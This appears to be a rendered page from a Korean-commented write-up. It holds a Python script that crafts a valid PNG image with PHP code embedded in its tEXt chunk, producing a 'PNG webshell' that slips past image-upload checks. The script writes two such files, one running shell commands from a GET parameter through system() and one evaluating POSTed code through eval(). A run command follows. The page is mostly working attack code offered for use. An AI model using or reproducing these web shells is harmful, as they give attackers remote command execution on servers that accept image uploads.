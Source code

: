 ```python
    # PNG 시그니처
    png_signature = b'\x89\x50\x4e\x47\x0d\x0a\x1a\x0a'

    # IHDR 청크 (1x1 픽셀 RGBA)
    width = height = 1
    ihdr_data = struct.pack('>IIBBBBB', width, height, 8, 6, 0, 0, 0)
    ihdr_chunk = create_png_chunk(b'IHDR', ihdr_data)

    # tEXt 청크에 PHP 코드 삽입
    text_data = b'Comment\x00' + php_code.encode('latin-1')
    text_chunk = create_png_chunk(b'tEXt', text_data)

    # IDAT 청크 (이미지 데이터)
    idat_data = b'\x78\x9c\x63\x00\x01\x00\x00\x05\x00\x01'
    idat_chunk = create_png_chunk(b'IDAT', idat_data)

    # IEND 청크 (종료)
    iend_chunk = create_png_chunk(b'IEND', b'')

    # 전체 PNG 파일 생성
    png_data = png_signature + ihdr_chunk + text_chunk + idat_chunk + iend_chunk

    with open(output_file, 'wb') as f:
        f.write(png_data)

    print(f"[+] PNG webshell created: {output_file}")
    print(f"[+] File size: {len(png_data)} bytes")
    print(f"[+] PHP code: {php_code}")

    # 검증
    with open(output_file, 'rb') as f:
        header = f.read(8)
        if header == png_signature:
            print("[+] ✅ Valid PNG signature")
        else:
            print("[!] ❌ Invalid PNG signature")

if __name__ == "__main__":
    # 간단한 웹쉘
    create_png_webshell('shell.png', '<?php system($_GET["c"]); ?>')

    # 고급 웹쉘
    create_png_webshell('advanced.png', '<?php @eval($_POST["p"]); ?>')
```

**실행**:
```bash
python3 create_png_webshell.py
```

---
